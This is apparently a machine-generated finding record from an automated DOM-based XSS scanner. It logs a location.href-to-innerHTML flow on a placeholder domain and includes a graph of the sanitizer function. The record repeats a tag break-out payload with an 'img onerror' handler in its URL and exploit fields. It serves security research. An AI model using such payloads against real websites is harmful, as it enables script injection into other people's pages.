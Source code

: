 // Finding: 07022e7f-88a0-4360-bb98-e2bb4ac2703a
// Finding.url: https://example426.com/thesaurus/?s=*:winter sport"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('a3a3e4c7345b402fba2f506d04a22e98')><!--/*
// Finding.parentloc: https://example426.com/thesaurus/?s=*:winter sport"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('a3a3e4c7345b402fba2f506d04a22e98')><!--/*
// Finding.domain: example426.com
// Finding.base_domain: example426.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 3
// Sanitizer.name: thesInit
// Sanitizer.location: https://example426.com/thesaurus/thesaurus.js?v=69 - thesInit:5:122
// Finding.begin: 1067
// Finding.end: 1097
// Finding.original_uuid: deca0fbd-b595-40dd-b8e4-940e35fad310
// Finding.TwentyFiveMillionFlowsId: -2069285394
// Finding.script: https://example184.com/ajax/libs/jquery/3.4.1/jquery.min.js
// Finding.line: 2
// Exploit.uuid: a3a3e4c7-345b-402f-ba2f-506d04a22e98
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: *:winter sport"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: *:winter sport"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 33
// Exploit.end_taint_url: 47
// Exploit.replace_begin_url: 33
// Exploit.replace_end_url: 47
// Exploit.replace_begin_param: 63
// Exploit.replace_end_param: 77
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1093739567
// DepGraph.sanitizer_hash: 1863727196
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 31"];
n4 [shape=ellipse, label="split"];
n5 [shape=box, label="Lit: ="];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="decodeURIComponent"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /[+]/"];
n11 [shape=box, label="Lit:  "];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /[<>=]/"];
n15 [shape=box, label="Lit: "];
n16 [shape=box, label="Var: x"];
n17 [shape=box, label="Var: x"];
n18 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n6 -> n1;
n4 -> n5;
n4 -> n6;
n8 -> n4;
n7 -> n8;
n12 -> n7;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n16 -> n9;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n17 -> n13;
n18 -> n17;
}